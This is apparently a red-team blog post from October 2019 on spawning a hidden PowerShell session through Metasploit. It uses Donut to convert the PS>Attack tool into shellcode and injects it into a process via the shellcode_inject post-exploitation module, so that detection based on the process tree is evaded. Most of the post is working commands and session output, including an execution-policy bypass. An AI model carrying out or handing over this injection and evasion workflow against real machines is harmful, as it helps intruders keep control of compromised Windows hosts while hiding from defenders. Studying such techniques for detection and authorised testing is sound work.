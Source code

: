 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter Edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[![asciicast](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr.svg)](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- [https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/](https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/)
- [https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/](https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/)
- [https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/](https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/)
- [https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/](https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/)
- [https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html)

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : :NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀

![demo](../assets/images/shellcode_psattack.jpg "Demo")

[back](../)
